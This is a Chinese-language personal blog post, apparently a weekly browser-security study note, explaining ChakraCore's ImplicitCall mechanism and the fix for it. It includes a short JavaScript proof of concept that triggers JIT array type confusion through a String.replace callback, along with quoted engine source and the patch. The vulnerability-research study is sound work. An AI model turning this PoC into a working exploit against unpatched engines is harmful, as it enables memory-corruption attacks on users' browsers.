 ```yaml
---
layout: post
title:  "浏览器安全周报 2019.12.02 - 2019.12.06"
date:   2019-12-06 18:00:00 +520
tags: browser_security
---
```


上周五笔记本送修，水果店告诉我没有配件现货，订货加维修可能要一周时间，还以为这周的安全周报没法写了，结果周日就告诉我维修完成可以去拿，这售后可以啊！

这周主要是看ChakraCore的一些内部机制，比如回调相关的ImplicitCall机制

主要是学习的elli0tn0phack师傅的文章《Chakra漏洞调试笔记1——ImplicitCall》，这一系列文章我学到了很多，当然目前只是读了几遍，其中很多的知识点我都还在一点一点的学习，这周主要把ImplicitCall机制给学习清楚了，这里也感谢elli0tn0phack师傅和Sakura师傅耐心的指导，感谢师傅们！
- https://www.anquanke.com/post/id/180551

elli0tn0phack师傅在今年的BlueHat Shanghai也有关于浏览器安全相关的精彩演讲《Browser Script Engine Zero Days in 2018》
- https://images.seebug.org/archive/Browser_Script_Engine_Zero_Days_in_2018-EN.pdf
- https://www.microsoft.com/en-us/videoplayer/embed/RE39Zq1

这个会议的官网上有本次会议的大部分视频以及所有的Slides
- https://www.microsoft.com/china/bluehatshanghai/2019/#Agenda

关于ImplicitCall机制，它是用于防止执行回调修改了JS对象，但是JIT不知道的情况，比如`valueOf`回调里修改了数组的长度，但是JIT循环的时候还是缓存的长度，那就会造成一个越界访问

Poc
```
function main() {
    let arr = [1.1, 1.1, 1.1, 1.1, 1.1];
    function opt(f) {
        arr[0] = 1.1;
        arr[1] = 2.3023e-320 + parseInt('a'.replace('a', f));
        arr[2] = 1.1;
        arr[3] = 1.1;
    }

    let r0 = () => '0';
    for (var i = 0; i < 0x1000; i++)
        opt(r0);

    opt(() => {
        arr[0] = {};
        return '0';
    });

    print(arr[1]);
}

main();
```

这个漏洞的成因是因为在JITed Code里触发回调修改了数组`arr`的类型，但是JIT Compiler没有意识到这一点，导致JS层数组修改了类型，但是引擎还把数组当作浮点数数组进行赋值操作

正常情况下JIT Compiler是考虑了回调改变对象内存布局这种情况的，具体实现由`Js::Var ExecuteImplicitCall`来完成
```
template <class Fn>
inline Js::Var ExecuteImplicitCall(Js::RecyclableObject * function, Js::ImplicitCallFlags flags, Fn implicitCall)
{
    // For now, we will not allow Function that is marked as HasNoSideEffect to be called, and we will just bailout.
    // These function may still throw exceptions, so we will need to add checks with RecordImplicitException
    // so that we don't throw exception when disableImplicitCall is set before we allow these function to be called
    // as an optimization.  (These functions are valueOf and toString calls for built-in non primitive types)

    Js::FunctionInfo::Attributes attributes = Js::FunctionInfo::GetAttributes(function);

    // we can hoist out const method if we know the function doesn't have side effect,
    // and the value can be hoisted.
    // 没有Side Effect的函数可以直接调用
    if (this->HasNoSideEffect(function, attributes))
    {
        // Has no side effect means the function does not change global value or
        // will check for implicit call flags
        return implicitCall();
    }

    // Don't call the implicit call if disable implicit call
    // 如果ImplicitCall被禁用表示不允许调用
    if (IsDisableImplicitCall())
    {
        AddImplicitCallFlags(flags);
        // Return "undefined" just so we have a valid var, in case subsequent instructions are executed
        // before we bail out.
        return function->GetScriptContext()->GetLibrary()->GetUndefined();
    }

    if ((attributes & Js::FunctionInfo::HasNoSideEffect) != 0)
    {
        // Has no side effect means the function does not change global value or
        // will check for implicit call flags
        return implicitCall();
    }

    // Save and restore implicit flags around the implicit call

    // 此时明确有回调且有Side Effect，所以设置saveImplicitCallFlags的值
    Js::ImplicitCallFlags saveImplicitCallFlags = this->GetImplicitCallFlags();
    Js::Var result = implicitCall();
    this->SetImplicitCallFlags((Js::ImplicitCallFlags)(saveImplicitCallFlags | flags));
    return result;
}
```

函数`RegexHelper::StringReplace`实现的地方，可以看到直接调用用户定义的函数，没有做检查
```
Var RegexHelper::StringReplace(JavascriptString* match, JavascriptString* input, JavascriptFunction* replacefn)
{
    CharCount indexMatched = JavascriptString::strstr(input, match, true);
    ScriptContext* scriptContext = replacefn->GetScriptContext();
    Assert(match->GetScriptContext() == scriptContext);
    Assert(input->GetScriptContext() == scriptContext);

    if (indexMatched != CharCountFlag)
    {
        Var pThis = scriptContext->GetLibrary()->GetUndefined();
        // 调用用户定义的函数
        Var replaceVar = CALL_FUNCTION(scriptContext->GetThreadContext(), replacefn, CallInfo(4), pThis, match, JavascriptNumber::ToVar((int)indexMatched, scriptContext), input);  // <--
        JavascriptString* replace = JavascriptConversion::ToString(replaceVar, scriptContext);
        const char16* inputStr = input->GetString();
        const char16* prefixStr = inputStr;
        CharCount prefixLength = indexMatched;
        const char16* postfixStr = inputStr + prefixLength + match->GetLength();
        CharCount postfixLength = input->GetLength() - prefixLength - match->GetLength();
        CharCount newLength = prefixLength + postfixLength + replace->GetLength();
        BufferStringBuilder bufferString(newLength, match->GetScriptContext());
        bufferString.SetContent(prefixStr, prefixLength,
                                replace->GetString(), replace->GetLength(),
                                postfixStr, postfixLength);
        return bufferString.ToString();
    }
    return input;
}
```

为什么最后面的标志位可以用于判断是否有回调呢？

我们来看Patch后的调用，传入的是`ImplicitCall_Accessor`，对应的值是`0x04`，最后通过`|`就不是原来的值，所以JIT在检查的时候，一看`ImplicitCallFlags`不是原来的值，那就说明`ExecuteImplicitCall`判断这里存在回调，所以直接BailOut到Interpreter去解释执行
```
ThreadContext* threadContext = scriptContext->GetThreadContext();
Var replaceVar = threadContext->ExecuteImplicitCall(replacefn, ImplicitCall_Accessor, [=]()->Js::Var
{
    Var pThis = scriptContext->GetLibrary()->GetUndefined();
    return CALL_FUNCTION(threadContext, replacefn, CallInfo(4), pThis, match, JavascriptNumber::ToVar((int)indexMatched, scriptContext), input);
});

enum ImplicitCallFlags : BYTE
{
    ImplicitCall_HasNoInfo = 0x00,
    ImplicitCall_None = 0x01,
    ImplicitCall_ToPrimitive = 0x02 | ImplicitCall_None,
    ImplicitCall_Accessor = 0x04 | ImplicitCall_None,
    ImplicitCall_NonProfiledAccessor = 0x08 | ImplicitCall_None,
    ImplicitCall_External = 0x10 | ImplicitCall_None,
    ImplicitCall_Exception = 0x20 | ImplicitCall_None,
    ImplicitCall_NoOpSet = 0x40 | ImplicitCall_None,
    ImplicitCall_All = 0x7F,
    ImplicitCall_AsyncHostOperation = 0x80
};
```

之前分析的SamsungSMT逻辑提权漏洞，详细分析写了一半后来就没动了，看看下周写完给发出来吧，我喜欢逻辑漏洞，剩下的时间多看看编译原理，现在再来看编译原理感觉能和编译器很多知识点对应上，很有趣:))